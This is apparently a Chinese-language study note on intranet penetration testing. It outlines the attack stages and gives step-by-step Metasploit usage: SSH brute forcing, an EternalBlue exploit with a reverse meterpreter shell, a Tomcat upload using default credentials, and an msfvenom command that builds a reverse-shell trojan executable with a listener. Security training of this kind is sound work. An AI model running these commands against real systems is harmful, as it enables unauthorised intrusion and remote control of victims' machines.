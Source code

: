 ```yaml
---
typora-root-url: ./
---
```


## 0x01 内网渗透流程

- 一般都是针对Windows系统进行内网渗透

1. 外部打点（外部攻击，如网站渗透getshell）
2. 内网信息收集（系统信息，网络信息，密码，防火墙信息等）
3. 提权
4. 横向渗透（同网段渗透）
5. 纵向渗透（跨网段渗透，如同一主机同时有两个网络环境的ip）
6. 权限维持
7. 痕迹清理

- 免杀

- 域渗透

  

## 0x02 外部打点

### 一、漏洞挖掘

1. 历史漏洞（RCE）
2. 0day
3. 手动挖掘owasp top 10

### 二、漏洞利用

1. 上传webshell

2. 反弹shell

3. 渗透测试框架 远控后门（Metasploit、CobaltStrike）

   

### 三、Metasploit

#### 1. Metasploit概述

- metasploit是一个集成的渗透测试框架

- 官网：https://metasploit.com

- github项目地址：https://github.com/rapid7/metasploit-framework

- 官方文档：https://docs.rapid7.com/metasploit/

- 官方视频：https://www.youtube.com/c/MetasploitR7

- 安装：

  wget https://downloads.metasploit.com/data/releases/metasploit-latest-linux-x64-installer.run
  chmod +x metasploit-latest-linux-x64-installer.run
  ./metasploit-latest-linux-x64-installer.run

#### 2. 基础构成

- modules
  - auxiliary:辅助模块,辅助渗透（端口扫描、登录密码爆破、漏洞验证等)
  - exploits:漏洞利用模块，包含主流的漏洞利用脚本，通常是对某些可能存在漏洞的目标进行漏洞利用。命名规则:操作系统/各种应用协议分类
  - payloads:攻击载荷，主要是攻击成功后在目标机器执行的代码，比如反弹shell的代码
  - post:后渗透阶段模块，漏洞利用成功获得meterpreter之后，向目标发送的一些功能性指令，如:提权等
  - encoders:编码器模块，主要包含各种编码工具，对payload进行编码加密，以便绕过入侵检测和过滤系统
  - evasion:躲避模块,用来生成免杀payload
  - nops:由于IDS/IPs会检查数据包中不规则的数据，在某些情况下，比如针对溢出攻击，某些特殊滑行字符串(NOPS x90x90...)则会因为被拦截而导致攻击失效。

- db

#### 3. 基础使用

1. msfdb init（初始化数据库，开启5432端口）
2. msfconsole（进入msf命令行接口）

### 4. 使用流程

1. 使用模块

   - 可以使用search查找相关模块

   - use 模块序号/模块全称
    ![image-20220704111546717](..\img\内网渗透-基础\image-20220704111546717.png)

2. 配置模块

   - show options或options查看配置

   - required是yes代表是必填项，若为空则需要手动配置

   - 选择相应配置项set配置参数
     ![image-20220704112314465](..\img\内网渗透-基础\image-20220704112314465.png)

3. 运行模块
   - run或exploit

### 5. 使用示例

- 爆破ssh服务

  1. search ssh scanner查找相关模块

     ![image-20220704115740588](..\img\内网渗透-基础/image-20220704115740588.png)

  2. use使用模块

     use auxiliary/scanner/ssh/ssh_login

  3. option查看配置选项

     ![image-20220704115817591](..\img\内网渗透-基础/image-20220704115817591.png)

  4. set配置参数

  5. run运行模块

- 爆破ftp
  1. search ftp auxilary scanner

- 永恒之蓝

  smb服务445端口，ms17_010

  1）使用模块

  - search ms_17_010
  - use 0

  2）配置模块

  - module options：
    - rhost 目标地址
  - payload options：
    - meterpreter  msf后渗透模块
    - windows/x64/meterpreter/reverse_tcp 系统版本/架构/协作的操作/操作方法
    - lhost 监听机地址
    - lport 监听端口
  - exploit target ：自动

  3）使用模块

  - run/exploit

- tomcat后台部署漏洞

  - search tomcat
  - use exploit/multi/http/tomcat_mgr_upload
  - show options
  - set rhost
  - set rport
  - set httpusername tomcat
  - set httppassword tomcat
  - set lhost
  - set lport
  - run


### 6. msfconsole 和 meterpreter相关命令

   - exit
   - background 当前会话放到后台
   - sessions 列出后台会话
   - sessions [ID] 进入会话
   - \>meterpreter shell 获取目标命令行
   - \>meterpreter getuid 获取当前用户信息
   - \>cmd chcp 65001 修改编码为utf-8
   - \>msf6 jobs 列出所有job
   - \>msf6 job -K 关闭所有
   - \>msf6 job -k  ID 关闭指定job

### 7. msfvenom 生成远控木马

1. 生成后门

​	msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.136 lport=12345 -f exe -o 123.exe

2. 攻击机开启监听

​	正常开启：

1. msfconsole
2. use exploit/multi/handler
3. set payload windows/x64/meterpreter/reverse_tcp
4. set lhost xxx.xxx.xxx.xxx
5. set lport xxxx
6. run

​	快捷开启：hander -p windows/x64/meterpreter/reverse_tcp -H 192.168.10.77 -P 12345

3. 靶机运行后门，上线meterpreter



